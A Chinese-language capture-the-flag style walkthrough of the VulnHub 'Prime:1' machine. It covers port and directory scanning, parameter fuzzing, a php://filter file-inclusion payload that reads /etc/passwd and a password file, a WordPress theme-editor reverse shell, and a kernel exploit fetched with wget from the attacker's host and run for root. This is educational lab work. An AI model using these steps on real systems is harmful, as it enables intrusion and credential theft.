



# Recon

这台机器仅开放ssh和http

```shell
(py311) ┌──(kali㉿kali)-[~/vulnhub/prime:1]
└─$ sudo nmap --min-rate 20000 -sT -sV -A -p- -n -Pn 192.168.2.152 -oN recon
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-20 03:58 EST
Nmap scan report for 192.168.2.152
Host is up (0.00050s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8d:c5:20:23:ab:10:ca:de:e2:fb:e5:cd:4d:2d:4d:72 (RSA)
|   256 94:9c:f8:6f:5c:f1:4c:11:95:7f:0a:2c:34:76:50:0b (ECDSA)
|_  256 4b:f6:f1:25:b6:13:26:d4:fc:9e:b0:72:9f:f4:69:68 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: HacknPentest
MAC Address: 00:0C:29:D3:05:75 (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14, Linux 3.8 - 3.16
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.50 ms 192.168.2.152

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.05 seconds
```

web前端就是一张静态图片的展示 源代码没有任何内容



# web

目录扫描

```shell
(py311) ┌──(kali㉿kali)-[~/vulnhub/prime:1]
└─$ feroxbuster -u http://192.168.2.152 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -E -n -x $ext -s 200,301                                     
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.0
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://192.168.2.152/
 🚩  In-Scope Url          │ 192.168.2.152
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
 👌  Status Codes          │ [200, 301]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 💲  Extensions            │ [php, asp, aspx, jsp, pl, cgi, css, js, htm, html, zip, tar, tar.gz, tgt, tar.bz2, txt, 1, py, pyc, bak, backup, dist, xml]
 💰  Collect Extensions    │ true
 💸  Ignored Extensions    │ [Images, Movies, Audio, etc...]
 🏁  HTTP methods          │ [GET]
 🚫  Do Not Recurse        │ true
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET        6l       12w      147c http://192.168.2.152/image.php
200      GET        7l       12w      136c http://192.168.2.152/index.php
200      GET     3375l    18915w  1617753c http://192.168.2.152/hacknpentest.png
200      GET        7l       12w      136c http://192.168.2.152/
301      GET        9l       28w      318c http://192.168.2.152/wordpress => http://192.168.2.152/wordpress/
200      GET        7l       26w      131c http://192.168.2.152/dev
301      GET        9l       28w      319c http://192.168.2.152/javascript => http://192.168.2.152/javascript/
200      GET       15l       69w      412c http://192.168.2.152/secret.txt
```

先看看secret.txt

其中说要对扫描到的每一个php文件做fuzz 并且如果能fuzz到参数就可以参考其中提供的github链接

最后一行说查看location.txt会获得下一步的提示，但是网页访问/location.txt并不存在

```tex
Looks like you have got some secrets.

Ok I just want to do some help to you. 

Do some more fuzz on every page of php which was finded by you. And if
you get any right parameter then follow the below steps. If you still stuck 
Learn from here a basic tool with good usage for OSCP.

https://github.com/hacknpentest/Fuzzing/blob/master/Fuzz_For_Web
 


//see the location.txt and you will get your next move//

```

只扫描到index.php和image.php，wordpress目录下肯定全是php，目前认为应该不属于fuzz范围

这里使用的是arjun，它可以快速对目标网页进行post和get参数fuzz

index.php发现了file参数，image.php没有结果

```shell
(py311) ┌──(kali㉿kali)-[/usr/share/seclists/Discovery/Web-Content]
└─$ arjun -u http://192.168.2.152/index.php                                    

[*] Scanning 0/1: http://192.168.2.152/index.php
[*] Probing the target for stability
[*] Analysing HTTP response for anomalies
[*] Logicforcing the URL endpoint
[✓] parameter detected: file, based on: body length
[+] Parameters found: file                                                                                                                                                  
(py311) ┌──(kali㉿kali)-[/usr/share/seclists/Discovery/Web-Content]
└─$ arjun -u http://192.168.2.152/image.php         
[*] Scanning 0/1: http://192.168.2.152/image.php
[*] Probing the target for stability
[*] Analysing HTTP response for anomalies
[*] Logicforcing the URL endpoint
[!] No parameters were discovered.
```

传递file参数，返回Do something better,you are digging wrong file

fuzz这个参数位置没有得到能被成功包含的文件

说明这个位置可能没有真实的LFI



想到secret.txt提示的location.txt，尝试包含

返回的文本中包含secrettier360参数，描述其可能在其它php页面中能得到一些有意思的内容

```tex
Now dig some more for next one
use 'secrettier360' parameter on some other php page for more fun.
```

尝试image.php传递该参数，使用伪协议包含/etc/passwd

image.php?secrettier360=php://filter/convert.base64-encode/resource=/etc/passwd

```shell
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
victor:x:1000:1000:victor,,,:/home/victor:/bin/bash
mysql:x:121:129:MySQL Server,,,:/nonexistent:/bin/false
saket:x:1001:1001:find password.txt file in my directory:/home/saket:
sshd:x:122:65534::/var/run/sshd:/usr/sbin/nologin
```

uid大于999的用户有victor和saket，其中saket用户的注释部分说明存在/home/saket/password.txt文件

包含得到Zm9sbG93X3RoZV9pcHBzZWMK，解码得到follow_the_ippsec

但是saket用户并没有可交互shell，尝试这个密码ssh登录victor用户失败

尝试saket:follow_the_ippsec登录wordpress失败

尝试victor:follow_the_ippsec登录wordpress成功

# shell as www-data by wordpress

登录victor用户后，尝试插件上传getshell失败

转而查看主题编辑器，secret.php可写，写入reverse.php



写入后访问wordpress/wp-content/themes/twentynineteen/secret.php

得到反弹shell

```shell
(py311) ┌──(kali㉿kali)-[~/vulnhub/prime:1]
└─$ pwncat-cs -lp 443                        
(remote) www-data@ubuntu:/$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# shell as root by kernel-pe

枚举内核版本

```shell
(remote) www-data@ubuntu:/tmp$ uname -r
4.10.0-28-generic
```

查找内核提权exp

```shell
(py311) ┌──(kali㉿kali)-[~/tools]
└─$ searchsploit 4.10 ubuntu kernel
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation                      | linux/local/37292.c
Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation (Access /etc/shadow) | linux/local/37293.txt
Linux Kernel 4.10.5 / < 4.14.3 (Ubuntu) - DCCP Socket Use-After-Free                                                      | linux/dos/43234.c
Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation                               
```

下载45010.c 编译后执行提权成功

```shell
(remote) www-data@ubuntu:/home/saket$ cd /tmp 
(remote) www-data@ubuntu:/tmp$ wget http://192.168.2.100:8000/45010.c
--2025-11-23 23:01:12--  http://192.168.2.100:8000/45010.c
Connecting to 192.168.2.100:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 13176 (13K) [text/x-csrc]
Saving to: '45010.c'
45010.c                                100%[============================================================================>]  12.87K  --.-KB/s    in 0s

2025-11-23 23:01:12 (86.0 MB/s) - '45010.c' saved [13176/13176]

(remote) www-data@ubuntu:/tmp$ gcc 45010.c -o pwn
(remote) www-data@ubuntu:/tmp$ ./pwn
[.] 
[.] t(-_-t) exploit for counterfeit grsec kernels such as KSPP and linux-hardened t(-_-t)
[.] 
[.]   ** This vulnerability cannot be exploited at all on authentic grsecurity kernel **
[.] 
[*] creating bpf map
[*] sneaking evil bpf past the verifier
[*] creating socketpair()
[*] attaching bpf backdoor to socket
[*] skbuff => ffff8829b7118b00
[*] Leaking sock struct from ffff8829af5ad400
[*] Sock->sk_rcvtimeo at offset 592
[*] Cred structure at ffff882996b59980
[*] UID from cred structure: 33, matches the current: 33
[*] hammering cred structure at ffff882996b59980
[*] credentials patched, launching shell...
\[\](remote)\[\] \[\]root@ubuntu\[\]:\[\]/tmp\[\]$ id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

